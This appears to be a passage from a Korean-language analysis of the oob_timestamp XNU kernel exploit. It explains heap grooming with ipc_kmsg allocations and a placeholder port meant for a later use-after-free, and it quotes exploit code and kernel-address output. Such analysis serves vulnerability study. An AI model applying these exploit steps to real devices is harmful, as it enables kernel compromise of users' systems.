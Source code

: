 ```cpp
[*] struct ipc_kmsg(port=0x2303) = 0xffffffe0db7d0000
```

![image.png](pics/image%203.png)

## 4. 2번째의 ipc_kmsg 할당

3번 과정과 같다. 

8페이지짜리 `ipc_kmsg`를 하나 할당하고 보관용으로 `placeholder_message_port`에 저장한다. 해당 `ipc_kmsg`는 첫번째로 할당된 `ipc_kmsg` 바로 뒤에 위치해야한다.

지금은 이처럼 할당된 상태로 유지되겠지만, 나중에는 해제된 뒤 제어된 데이터로 다시 할당되어 UAF를 발생시키기 위해 만들어둔 코드인것 같다.

```cpp
// this is a placeholder, we need it allocated for now but later it'll be freed and allocated with controlled data which will be UAFd
    mach_port_t placeholder_message_port = POP_PORT();
    ret = send_message(placeholder_message_port, data, (uint32_t)message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg));
    if (ret) {
        printf("[-] Failed to send message\n");
        goto err;
    }
```

다음과 같이 특정주소에 **2번째의 `ipc_kmsg`**가 위치하게 된다.

```cpp
[*] struct ipc_kmsg 2(port=0x2203) = 0xffffffe0db7f0000
```

![image.png](pics/image%204.png)

## 5. OOL 포트 메시지 할당

oob_timestamp 주석에는 다음과 같은 내용이 들어있다.

> 8페이지짜리 OOL(out-of-line) 포트 디스크립터 배열을 생성합니다.

